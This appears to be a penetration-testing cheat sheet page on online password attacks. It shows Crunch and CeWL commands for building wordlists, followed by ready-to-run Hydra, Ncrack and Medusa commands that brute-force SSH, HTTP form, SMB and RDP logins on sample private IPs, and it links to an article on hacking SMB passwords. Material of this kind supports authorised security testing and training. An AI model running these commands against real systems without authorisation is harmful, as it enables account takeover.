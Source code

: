 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

> `crunch [min] [max] [characterset] -t [pattern] -o [output filename]`

min = minimum password length max = maximum password length characterset = The character set to be used in generating the passwords -t = patten, for example if you knew that your target's birthday was 0728 \(July 28th\) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.

> `./crunch 1 1 -p pen test lab`

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

> `./crunch 6 6 0123456789 -b 1mb -o START`

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

> `./crunch 3 3 -f charset.lst lalpha -o START -c 20`

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

> `./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@`

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

> `cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org`

## Bruteforce

### Hydra

> `hydra -l username -p passwordlist.txt [target (ip address and port)]`

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

> `hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh`

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

> `hydra -L \[username list\] -P \[password list\] 192.168.1.10 \[form parameters\]\[failed login message\]`

#### SMB Bruteforce

> `hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb`

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

> `ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35`

#### SMB Bruteforce

> `ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445`

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

> `medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt`

